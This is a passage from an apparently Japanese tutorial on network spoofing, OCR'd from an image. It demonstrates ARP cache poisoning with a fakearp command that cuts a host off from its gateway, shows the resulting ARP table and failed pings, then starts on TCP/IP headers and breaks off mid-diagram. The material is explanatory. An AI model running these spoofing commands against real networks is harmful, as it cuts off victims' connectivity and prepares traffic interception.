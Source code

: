 　192.168.64.1のEthernetアドレスを"aa-bb-cc-dd-ee-ff"に更新させて192.168
.64.1との通信を不能にします。

```
\# fakearp 192.168.64.5 -shw aa:bb:cc:dd:ee:ff -spa 192.168.64.1 -i eth1
```

　このコマンドを実行するとARPテーブルが更新されます。

```5側
C:\>arp -a

Interface: 192.168.64.5 on Interface 0x1000003
  Internet Address      Physical Address      Type
  192.168.64.1          aa-bb-cc-dd-ee-ff     dynamic

C:\>
```

　この時点で、192.168.64.1と192.168.64.5間はARPキャッシュが切れるか、正し
いアドレスに更新されるまで通信不能となり、Pingを飛ばしても返ってくる事は
ありません。

```
C:\>ping 192.168.64.1

Pinging 192.168.64.1 with 32 bytes of data:

Request timed out.
Request timed out.
Request timed out.
Request timed out.

Ping statistics for 192.168.64.1:
    Packets: Sent = 4, Received = 0, Lost = 4 (100% loss),
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum =  0ms, Average =  0ms

C:\>
```

　192.168.64.1がインターネットへのゲートウェイである場合、LANから出る事が
出来ずインターネットへの接続は出来なくなります。更に付け加えておくと、fak
earpはデフォルトでは宛先ハードウェアアドレスがFF:FF:FF:FF:FF:FF(ブロード
キャスト)のパケットを送信するので、このパケットを受け取った全てのマシンが
通信不能となる危険性があります。ピンポイントで行うには宛先ハードウェアア
ドレスを指定して下さい。

  今回はIPスプーフィングを目的としているので、ARPスプーフィングについては
ここまでとして、偽のTCPコネクションを確立させる過程を追って行きます。
  TCPは接続指向であるため、クライアント／サーバー間でコネクションの確立を
行います。コネクションの確立と再転送やフロー制御等をTCPレベルで行うためヘ
ッダーサイズが20バイトと、UDPの倍以上ありますが信頼性を保証します。IP, TCP
ヘッダーは次のような構成になっています。

IPヘッダー(RFC791から抜粋)
    0                   1                   2                   3
    0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1
   +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
   |Version|  IHL  |Type of Service|          Total Length         |
   +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
   |         Identification        |Flags|      Fragment Offset    |
   +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
   |  Time to Live |    Protocol   |         Header Checksum       |
   +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
   |                       Source Address                          |